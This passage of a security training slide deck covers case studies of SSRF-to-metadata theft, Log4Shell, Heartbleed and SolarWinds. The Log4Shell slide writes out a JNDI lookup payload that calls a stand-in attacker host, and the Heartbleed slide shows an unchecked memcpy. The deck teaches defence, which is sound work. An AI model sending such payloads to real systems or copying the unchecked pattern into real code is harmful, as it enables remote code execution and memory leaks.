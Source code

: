 ```mermaid
flowchart TD
   Misconfig[☁️ WAF Misconfig] --> SSRF[🛑 SSRF Attack]
   SSRF --> Metadata[📡 AWS Metadata Service]
   Metadata --> Data[🔥 100M Records Stolen]
```

---

## 📍 Slide 41 – 🐍 Case Study: Log4Shell (2021)

* 🐍 **Log4j** → widely used Java logging library.
* 📅 **Dec 2021**: discovered **CVE-2021-44228 (“Log4Shell”)**.
* 💉 Vulnerability type: **Remote Code Execution (RCE)** via JNDI lookup.
* 📉 Impact: millions of apps worldwide were exploitable.
* 🔑 Example: attacker sends malicious string → server executes attacker’s code.
* 🔗 Reference: [Apache Log4j Security](https://logging.apache.org/log4j/2.x/security.html).

```java
// ❌ Vulnerable Log4j logging call
logger.error("${jndi:ldap://attacker.com/exploit}");

// ✅ Fixed: disable JNDI lookups, update Log4j version >= 2.17.1
```

---

## 📍 Slide 42 – 💳 Case Study: Heartbleed (2014)

* 💳 **Heartbleed** → bug in **OpenSSL cryptographic library**.
* 📅 Discovered in **2014** (CVE-2014-0160).
* 🔑 Vulnerability type: **Buffer Over-read** → attacker could read server memory.
* 📉 Impact: passwords, session cookies, even private keys leaked.
* 🧩 Famous demo: extracting login credentials from Yahoo servers.
* 🔗 Reference: [Heartbleed.com](https://heartbleed.com/).

```c
/* ❌ Vulnerable OpenSSL heartbeat extension */
memcpy(buffer, payload, payload_length);
// No bounds check → attacker requests more bytes than provided
```

---

## 📍 Slide 43 – 📡 Case Study: SolarWinds (2020)

* 📡 **SolarWinds Orion** → IT monitoring software.
* 📅 **2020 supply chain attack**: attackers inserted malicious code into software updates.
* 🔑 Vulnerability: **Software Integrity Failure** (supply chain).
* 📉 Impact: >18,000 customers downloaded compromised updates (including US government agencies).
* 💰 Estimated damages: billions, long-term espionage impact.
* 🔗 Reference: [SolarWinds SEC Report](https://www.sec.gov/news/press-release/2023-139).

```mermaid
flowchart TD
   Attacker[😈 Attacker] --> BuildSys[⚙️ SolarWinds Build System]
   BuildSys --> MalUpdate[📦 Malicious Software Update]
   MalUpdate --> Clients[🌍 18,000 Clients Infected]
```

---